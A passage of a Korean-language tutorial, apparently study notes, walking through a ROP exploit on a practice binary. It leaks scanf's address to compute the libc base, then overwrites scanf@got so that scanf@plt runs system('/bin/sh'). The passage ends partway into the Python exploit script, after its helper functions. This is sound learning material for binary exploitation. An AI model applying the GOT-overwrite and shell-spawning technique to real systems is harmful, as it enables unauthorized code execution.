 ```python
print "scanf @ " + hex(scanf_addr)
```

![image](https://user-images.githubusercontent.com/59410565/119142030-f7266180-ba80-11eb-864c-df33a051f508.png)

- 스크립트를 실행하면 example4로부터 scanf의 주소를 구해 출력하는 것을 볼 수 있다. 
- 구한 scanf의 주소와 libc 베이스 주소로부터 scanf 함수 주소까지의 오프셋을 이용해 libc의 베이스 주소를 구할 수 있다.

```
libc 베이스 주소 = scanf 주소 - libc 베이스 주소로부터 scanf 주소까지의 오프셋
```

![image](https://user-images.githubusercontent.com/59410565/119142457-7c117b00-ba81-11eb-9aed-b179727dec17.png)

```
libc 베이스 주소 = scanf 주소 - 0x5c0d0
```



#### Exploit using ROP

릭된 libc-2.23.so 라이브러리 주소를 이용하여 쉘을 얻어보자.

- 익스플로잇에서는 ROP를 통해 scanf 함수를 호출해 scanf@got에는 system 함수의 주소를, scanf@got+4에는 "/bin/sh" 문자열을 입력한 후 scanf@plt를 호출하여 최종적으로 system("/bin/sh")를 실행한다.
- ROP 체인에서 함수를 호출할 때, 다음 체인을 실행하기 위해 esp 레지스터를 호출한 함수의 인자 다음으로 가리키게 해야 한다.

-> objdump를 이용해 pop; pop; ret 코드 가젯을 찾아자.

![image](https://user-images.githubusercontent.com/59410565/119143076-28536180-ba82-11eb-929c-d1f300ea982c.png)

- objdump의 결과를 보면 0x804851a 주소에 pop; pop; ret 코드 가젯이 존재하는 것을 알 수 있다.
- pop; pop; ret 코드 가젯을 이용하여 esp 레지스터를 scanf 함수의 인자 2개 이후 주소로 가리키게 해주었다.

![image](https://user-images.githubusercontent.com/59410565/119143338-75cfce80-ba82-11eb-96fb-1ad2c6d95df9.png)

```python
#!/usr/bin/python
'''
example4.py
'''
import struct
import subprocess
import os
import pty
import time
def readline(fd):
  res = ''
  try:
    while True:
      ch = os.read(fd, 1)
      res += ch
      if ch == '\n':
        return res
  except:
    raise
def read(fd, n):
  return os.read(fd, n)
def writeline(proc, data):
  try:
    proc.stdin.write(data + '\n')
  except:
    raise
def p32(val):
  return struct.pack("<I", val)
def u32(data):
  return struct.unpack("<I", data)[0]
```